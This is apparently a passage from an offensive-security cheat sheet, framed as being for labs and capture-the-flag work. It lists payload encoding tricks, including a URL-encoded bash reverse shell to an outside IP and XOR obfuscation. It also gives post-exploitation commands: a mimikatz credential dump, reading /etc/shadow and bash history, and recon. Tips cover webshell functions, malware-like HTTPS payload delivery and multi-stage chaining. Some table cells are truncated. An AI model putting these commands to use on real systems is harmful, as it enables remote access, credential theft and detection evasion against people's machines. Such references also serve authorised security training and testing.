 ***

### VIII. ⚡ Quick Payload Encoding Techniques

| Encoding                         | Example                                                                                                   |
| -------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **Base64 (Linux)**               | \`echo "payload"                                                                                          |
| **PowerShell Base64 (UTF-16LE)** | \`echo "IEX..."                                                                                           |
| **URL Encoding**                 | `python3 -c "import urllib.parse; print(urllib.parse.quote('bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'))"` |
| **XOR Encoding (Python)**        | `''.join(chr(ord(c)^0x41) for c in data)`                                                                 |

***

### IX. 🧱 Post-Exploitation Utilities (for Lab PrivEsc & Data Collection)

| Type                  | Command                                        |
| --------------------- | ---------------------------------------------- |
| **Credential Dump**   | `mimikatz.exe "sekurlsa::logonpasswords" exit` |
| **Hash Dump (Linux)** | `cat /etc/shadow`                              |
| **System Info**       | `whoami && uname -a && id`                     |
| **Network**           | `ip a && netstat -tuln && arp -a`              |
| **Persistence Check** | \`ps aux                                       |
| **History Harvest**   | `cat ~/.bash_history`                          |

***

### X. 🧠 Payload Integration Tips

* Always base64 or URL-encode payloads for command injection challenges.
* For webshells: test all wrappers — `system()`, `exec()`, `shell_exec()`, `passthru()`.
* Use HTTPS payload delivery in enterprise simulation (mimic real malware).
* Always clean up: `rm /tmp/rev*` after lab testing.
* Chain multi-stage payloads to simulate realistic intrusion flow.

***
